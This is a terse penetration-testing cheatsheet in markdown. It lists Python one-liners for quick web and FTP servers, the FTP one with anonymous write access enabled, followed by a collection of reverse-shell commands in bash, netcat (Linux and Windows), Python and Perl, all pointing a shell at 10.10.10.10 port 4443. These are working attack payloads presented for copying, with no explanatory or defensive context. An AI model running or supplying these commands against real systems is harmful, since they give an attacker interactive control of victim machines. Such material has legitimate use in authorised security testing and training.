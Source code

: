 # Commands
This is a cheatsheet for Commands which matches the Commands Mind Map
## Python Servers

### Web Server

- * python -m SimpleHTTPServer 80

### FTP Server

- * Install pyftpdlib
- * pip install pyftpdlib
- * Run (-w flag allows anonymous write access)
- * python -m pyftpdlib -p 21 -w

## Reverse Shells

### Bash shell

- * bash -i >& /dev/tcp/10.10.10.10/4443 0>&1

### Netcat without -e flag

- * rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 4443 >/tmp/f

## Netcat Linux

### nc -e /bin/sh 10.10.10.10 4443

## Netcat Windows

### * nc -e cmd.exe 10.10.10.10 4443

## Python

### python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.10",4443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

## Perl

### perl -e 'use Socket;$i="10.10.10.10";$p=4443;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
